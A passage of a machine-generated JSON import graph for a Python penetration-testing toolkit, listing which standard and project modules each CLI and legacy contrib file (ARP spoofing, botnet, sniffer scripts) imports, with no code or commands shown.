"relation": "imports", "source": "cli/reactive_hints.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reasoning_stream.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reasoning_stream.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reasoning_stream.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reasoning_stream.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reasoning_stream.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/reasoning_stream.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "cli.recommendation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "modules.apt_playbooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recommendation_signals.py", "target": "cli.recon_plan"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/recon_plan.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "inspect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "pkgutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/registry.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/scope_guard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/scope_guard.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/scope_guard.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/scope_guard.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/scope_guard.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/scope_guard.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_hud.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/session_resumer.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/sessions_browser.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/show.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/show.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/show.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/splash.py", "target": "cli.style"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/status_bar.py", "target": "cmd2.plugin"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/style.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/style.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/style.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/style.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_graph.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "rich.tree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "cli.surface_graph"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/surface_tui.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/themes.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/themes.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/themes.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "textual.app"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "textual.binding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "textual.containers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/timeline_browser.py", "target": "textual.widgets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "math"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.noise_verbs"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.phase_labels"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "core.safe_console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.autosuggest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.palette"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tips_engine.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/toast_bus.py", "target": "core.text_utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tui_theme.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tui_theme.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tui_theme.py", "target": "cli.themes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/tutorial.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "rich.panel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "rich.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "core.profiles"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "getpass"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "getpass"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "cli.marketplace_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard_scope.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard_scope.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard_scope.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/wizard_scope.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/__init__.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_http_bof.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_http_bof.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_http_bof.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "atexit"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "cv2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazy_packet_image_sniffer.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "modules.llm_client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyarpspoofing.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "pwn"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybinenc.py", "target": "rich.prompt"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotcli.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotcli.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotcli.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotcli.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotcli.py", "target": "Crypto.Random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotcli.py", "target": "Crypto.Util.Padding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "Crypto.Random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "Crypto.Util.Padding"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "pynput"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": 